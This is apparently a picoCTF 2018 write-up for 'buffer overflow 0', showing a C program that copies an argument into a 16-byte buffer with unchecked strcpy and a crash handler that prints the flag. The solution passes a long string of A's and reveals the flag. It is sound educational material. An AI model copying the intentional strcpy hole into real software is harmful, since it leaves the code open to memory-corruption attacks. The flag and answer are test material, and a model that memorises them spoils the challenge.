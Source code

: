 # buffer overflow 0

When we are introduced to the binary, we can see that for the most part it's pretty simple.
```
root@kali:~/Crack Me# ./vuln
This program takes 1 argument.
root@kali:~/Crack Me# ./vuln asdf
Thanks! Received: asdf
```
We pass in a command line argument, and it's returned to us. Let's take a look at the source.
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  fprintf(stderr, "%s\n", flag);
  fflush(stderr);
  exit(1);
}

void vuln(char *input){
  char buf[16];
  strcpy(buf, input);
}

int main(int argc, char **argv){

  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler);

  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  if (argc > 1) {
    vuln(argv[1]);
    printf("Thanks! Received: %s", argv[1]);
  }
  else
    printf("This program takes 1 argument.\n");
  return 0;
}
```
Interestingly, we find a `sigsegv_handler`. Essentially, when an error occurs during run time, this code is called before exiting. We can see that it simply reveals the flag to us. So all we need to do is overflow the buffer.
```
slopey112@pico-2018-shell:/problems/buffer-overflow-0_2_aab3d2a22456675a9f9c29783b256a3d$ ./vuln AAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
picoCTF{ov3rfl0ws_ar3nt_that_bad_5d8a1fae}
```
